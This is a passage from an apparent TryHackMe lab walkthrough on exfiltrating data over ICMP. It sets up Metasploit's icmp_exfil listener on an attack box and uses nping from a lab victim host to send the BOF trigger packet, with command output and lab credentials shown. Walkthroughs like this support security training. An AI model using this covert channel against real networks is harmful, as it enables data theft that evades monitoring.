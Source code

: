Set the BPF\_FILTER in MSF&#x20;

```markup
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKBOX_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP
```

We also need to select which network interface to listen to, eth0. Finally, executes run to start the module.

Set the interface in MSF

```markup
msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0
INTERFACE => eth0
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
```

We prepared icmp.thm.com as a victim machine to complete the ICMP task with the required tools. From the JumpBox, log in to the icmp.thm.com using thm:tryhackme credentials.

We have preinstalled the [nping](https://nmap.org/nping/) tool, an open-source tool for network packet generation, response analysis, and response time measurement. The NPING tool is part of the NMAP suite tools.

First, we will send the BOF trigger from the ICMP machine so that the Metasploit framework starts writing to the disk.&#x20;

Sending the Trigger Value from the Victim

```markup
thm@jump-box$ ssh thm@icmp.thm.com
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0369s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=7785 seq=1] IP [ttl=64 id=40595 iplen=39 ]
RCVD (0.0376s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=63 id=12656 iplen=39 ]
RCVD (0.0755s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=31 id=60759 iplen=32 ]
    
Max rtt: 38.577ms | Min rtt: 0.636ms | Avg rtt: 19.606ms
Raw packets sent: 1 (39B) | Rcvd: 2 (71B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds
```

We sent one ICMP packet using the nping command with --data-string argument. We specify the trigger value with the file name BOFfile.txt, set by default in the Metasploit framework. This could be changed from Metasploit if needed!

Now check the AttackBox terminal. If everything is set correctly, the Metasploit framework should identify the trigger value and wait for the data to be written to disk.&#x20;
